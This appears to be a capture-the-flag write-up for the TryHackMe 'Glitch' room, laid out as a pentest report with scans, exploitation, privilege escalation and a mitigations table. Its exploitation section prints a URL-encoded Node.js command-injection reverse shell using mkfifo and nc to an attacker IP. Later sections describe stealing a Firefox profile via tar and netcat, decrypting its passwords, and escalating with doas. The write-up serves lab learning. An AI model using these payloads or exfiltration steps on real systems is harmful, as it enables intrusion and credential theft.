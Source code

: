 [GLITCH](https://tryhackme.com/room/glitch)

**Date:** [23/05/2025]  
**Difficulty:** [Easy]  
**Objective:** [Exploit a vulnerable web application, extract stored credentials, escalate privileges, and gain root access on the target machine.]

---

## Table of Contents

- [1. Summary](#1-summary)
- [2. Methodology](#2-methodology)
- [3. Reconnaissance](#3-reconnaissance)
- [4. Enumeration](#4-enumeration)
- [5. Exploitation](#5-exploitation)
- [6. Privilege Escalation](#6-privilege-escalation)
- [7. Post Exploitation](#7-post-exploitation)
- [8. Flags / Proof](#8-flags--proof)
- [9. Mitigations](#9-mitigations)
- [10. Notes](#10-notes)

---

## 1. Summary

**IP/URL:** [10.10.230.208 ]  
**Service/Ports:** [80/HTTP]  
**Entry Point:** [Web token in localStorage and /api/items injection]  
**Privilege Escalation:** [Credential reuse via Firefox profile + doas misconfiguration]  
**Outcome:** [Root shell obtained, flags captured]  

---

## 2. Methodology

Following the PTES (Penetration Testing Execution Standard):
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance

## Active
```
nmap -sS -sV 10.10.230.208 
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
----

## 4. Enumeration
    Web: gobuster, wfuzz

    Commands:
    ```
    wfuzz -X POST -w /usr/share/wordlists/SecLists/Fuzzing/1-4_all_letters_a-z.txt --hc 404,400 http://10.10.162.38/api/items\?FUZZ\=1
    gobuster dir -u http://10.10.230.208 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```

    
Findings:
```
    /img                  (Status: 301) [Size: 173] [--> /img/]
    /js                   (Status: 301) [Size: 171] [--> /js/]
    /secret               (Status: 200) [Size: 724]
```
```
    ID           Response   Lines    Word       Chars       Payload                                                                          
=====================================================================

000002370:   200        0 L      2 W        25 Ch       "cmd"    

```


/secret revealed when setting a custom token cookie value
JavaScript exposed /api/items and structure of app
cmd parameter injectable

----

## 5. Exploitation

    Parameter injection in /api/items?cmd=

    Tools: Burp Suite

    Commands:
 
    POST /api/items?cmd=require("child_process").exec("rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20%2Di%202%3E%261%7Cnc%2010%2E21%2E157%2E185%204444%20%3E%2Ftmp%2Ff") HTTP/1.1

     Reverse shell received as user

----

## 6. Privilege Escalation

    Method: 

    Stole Firefox profile via tar | nc
    Extracted passwords using firefox_decrypt.py


    Tool Used: LinPEAS

    Commands:
 
   Find / -perm -4000 2>/dev/null
   doas -u root /bin/bash


Escalated To: root

----

## 7. Post Exploitation

    User switch: user → v0id → root

    Found and read /root/flag.txt

    Firefox config showed .bash_history redirected to /dev/null (intentional hiding)

----

## 8. Flags / Proof

    User Flag: THM{user_flag_here}

    Root Flag: THM{root_flag_here}

    Other Credentials / Loot:

        Username: v0id

        Password: (extracted)

----

## 9. Mitigations

| Vulnerability              | Risk   | Suggested Mitigation                                    |
|----------------------------|--------|---------------------------------------------------------|
| Token-based access control | High   | Use proper session management and token validation      |
| Command injection via API  | High   | Sanitize and validate all user input                    |
| Firefox credential leakage | High   | Disable password saving, encrypt profiles               |
| doas misconfiguration      | High   | Restrict usage to authorized users only                 |

----

## 10. Notes

    Time spent: [e.g., 2 hours]

    Tools used: nmap, gobuster, sqlmap, linpeas, Burp Suite, etc.

    Lessons learned:
    Firefox profiles can be goldmines of credentials

    Always check for custom JS logic in CTF web apps

    doas is just as dangerous as sudo when misconfigured

    Tar + netcat = simple and powerful file exfil method
